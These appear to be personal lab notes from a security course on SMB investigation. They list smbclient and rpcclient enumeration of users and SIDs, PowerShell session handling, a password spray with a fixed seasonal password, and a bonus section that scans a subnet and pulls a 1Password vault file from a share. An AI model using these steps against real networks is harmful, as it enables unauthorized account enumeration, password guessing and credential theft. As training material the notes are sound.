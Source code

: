 # SMB Investigation Notes

smbclient

```
smbclient -L 10.10.0.1 -U sec504
```

rpcclient test

```
rpcclient 10.10.0.1 -U sec504
 > enumdomusers
 > help
 > srvinfo
 > enumalsgroups domain
 > enumalsgroups builtin
SID ENUMERATION
 > lookupnames sec504
 > lookupnames administrator
 > lookupnames administrators
ENUMERATE USERS WITH RID, 500 is administrator 1000 may be a user
 > queryuser 500
 > queryuser 1000
```

disconnect smb sessions in powershell

```
Get-SmbSession
Get-SmbSession | Close-SmbSession -Force
Get-SmbSession
```

finding weak passwords, Password Spray Attack using PowerShell

```
Import-Module .\LocalPasswordSpray.ps1
Invoke-LocalPasswordSpray -Password Winter2023
```

bonus

```
nmap -sn 172.30.1-254
nmap -A 172.30.0.22
smbclient -U erigby -L 172.30.0.22 -m SMB3
smbclient -U erigby -L 172.30.0.22 -m SMB2
smbclient -U erigby -L 172.30.0.22 -m NT1
rpcclient 172.30.0.22 -U erigby
 > enumdomusers
 > getdompwinfo
 > getusrdompwinfo 1000
smbclient -U erigby //172.30.0.22/data -m SMB2
 > ls
 > cd 1Password/
 > cd 1Password.1pif/
 > get data.1pif
```
